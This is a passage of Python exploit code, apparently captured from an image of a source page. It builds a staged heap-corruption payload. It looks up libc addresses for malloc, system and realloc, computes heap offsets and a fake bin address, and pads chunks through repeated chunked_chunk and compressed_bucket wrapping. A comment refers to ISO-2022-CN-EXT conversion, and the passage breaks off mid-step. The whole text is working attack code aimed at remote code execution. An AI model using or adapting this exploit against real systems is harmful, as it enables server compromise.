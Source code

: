```python
        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
```
